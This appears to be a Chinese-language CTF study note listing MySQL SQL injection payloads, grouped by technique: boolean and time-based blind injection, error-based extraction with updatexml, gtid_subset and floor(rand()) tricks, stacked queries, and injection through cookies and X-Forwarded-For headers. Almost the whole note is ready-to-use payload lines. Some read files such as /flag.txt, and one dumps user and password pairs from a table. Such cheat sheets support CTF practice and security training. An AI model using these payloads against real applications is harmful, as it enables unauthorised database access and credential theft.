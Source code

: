 # 布尔回显注入
	- https://www.anquanke.com/post/id/170626
	- `where id=1 and 1=1`
	- `where id=1!=2!=(database()regexp('.'))!=0`
	- `1&&((select 1,'z')>(select * from f1ag_1s_h3r3_hhhhh))`
	- `if(length(database())<0, '1', ST_X('willerror'))`
	- `exp(710-（1>1))`
- # 布尔无回显注入
	- `where id=1 and if(length(database())>5, sleep(2), 1)`
- # 报错注入
	- [大佬的文章](https://github.com/aleenzz/MYSQL_SQL_BYPASS_WIKI/blob/master/1-7-%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5.md)
	- `where id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),30,30)),0x7e),1)#`
	- `where id=updatexml(1,concat(0x7e,database(),0x7e),1)#`
	- `where id=updatexml(1,concat(0x7e,0x61,0x7e),1)#`
	- `') or gtid_subset(concat(0x7e,(SELECT GROUP_CONCAT(user,':',password) from manage),0x7e),1)--+`
	- `select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);`
	- `exp(710)`
	- `exp(~1)`
- # 堆叠注入
	- where id=1; show tables;
-
- # 注入方向
	- 向 cookie 注入
	- 向 x-forward-for 注入
- # with rollup万能密码
	- [[CTF/WP/SWPU2019 Web6]]
- 二次注入
- 宽字节
- 脚本批量注入